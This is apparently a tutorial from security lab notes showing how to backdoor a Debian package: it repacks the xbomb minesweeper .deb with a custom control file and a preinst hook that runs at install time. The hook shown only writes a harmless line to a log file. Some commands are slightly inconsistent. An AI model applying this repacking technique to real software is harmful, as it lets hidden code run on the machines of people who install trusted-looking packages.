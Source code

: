 Refs:
* <https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/>
* <https://github.com/UndeadSec/Debinject>
* <https://fabianlee.org/2018/09/28/ubuntu-customizing-and-repacking-a-deb-file/>
* <http://www.securitytube.net/video/618>

```bash
# Download the .deb file in which you want to install the backdoor
$ sudo apt-get --download-only install xbomb

# Make a directory and copy .deb file into the newly created directory
$ mkdir /tmp/evil
$ sudo mv /var/cache/apt/archives/xbomb_2.2b-1build1_amd64.deb /tmp/evil
$ cd /tmp/evil/

# Extract the contents of .deb package into work directory
$ dpkg -x xbomb_2.2b-1build1_amd64.deb work

# Make DEBIAN directory inside work directory
$ mkdir /tmp/evil/work/DEBIAN

# Create a control file inside the DEBIAN directory
student@student:/tmpevil/work/DEBIAN$ cat control

cat control
Package: xbomb
Version: 2.2b-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based minesweeper
 xbomb is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
```
In our DEBIAN directory, we’ll create a file named preinst that contains the following
```bash
student@student:/tmp/evil/work/DEBIAN# cat preinst
#!/bin/sh

echo "ran preinst of client at $(date)." >> /tmp/my.log
```
We’ll now make our pre-installation script executable and build our new package. 
The built file will be named work.deb so we will want to change that to xbomb.deb
```bash
student@student:/tmp/evil/work/DEBIAN$ chmod 755 postinst
student@student:/tmp/evil/work/DEBIAN$ dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `xbomb' in `/tmp/evil/work.deb'.

student@student:/tmp/evil$ mv work.deb xbomb.deb
```
Now, we can copy xbomb.deb to home folder and double click for installation. In order to confirm that the preinstl script ran check /tmp/my.log file.
```
$ cat /tmp/my.log
ran preinst client at Tue Jul 14 22:06:59 xxx xxxx.
```

In order to uninstall the .deb file
```bash
$ sudo dpkg -P xbomb
```
